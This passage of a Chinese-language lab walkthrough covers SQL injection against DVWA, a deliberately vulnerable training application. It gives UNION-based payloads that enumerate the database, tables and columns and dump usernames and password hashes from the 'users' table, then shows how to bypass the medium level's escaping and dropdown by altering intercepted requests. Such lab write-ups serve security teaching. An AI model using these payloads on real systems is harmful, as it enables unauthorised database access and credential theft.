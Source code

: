 ### 获取当前数据库

 `输入1' union select 1,database() #，查询成功：#是注释作用 `

![MQMl7D.png](https://s2.ax1x.com/2019/11/11/MQMl7D.png)

 说明当前的数据库为dvwa。 

### 获取数据库中的表

`输入1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #，查询成功： #是注释作用`

![MQM7C9.png](https://s2.ax1x.com/2019/11/11/MQM7C9.png)

 说明数据库dvwa中一共有两个表，guestbook与users。 

### 获取表中的字段名

`输入1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #，查询成功： #是注释作用`

![MQlbm6.png](https://s2.ax1x.com/2019/11/11/MQlbm6.png)

圈起来是是字段名

### 下载数据

`输入1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #，查询成功： #是注释作用`

![MQ1ncn.png](https://s2.ax1x.com/2019/11/11/MQ1ncn.png)

 这样就得到了users表中所有用户的user_id,first_name,last_name,password的数据。 

## 级别：medium

### 分析

 Medium级别的代码利用mysql_real_escape_string函数对特殊符号\x00,\n,\r,,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。 

![MlYjiV.png](https://s2.ax1x.com/2019/11/11/MlYjiV.png)

 虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数，提交恶意构造的查询参数。 

###  判断是否存在注入，注入是字符型还是数字型 

 `抓包更改参数id为1' or 1=1 # 报错： #是注释作用 `

![MlNW38.png](https://s2.ax1x.com/2019/11/11/MlNW38.png)

![MlNhjg.png](https://s2.ax1x.com/2019/11/11/MlNhjg.png)
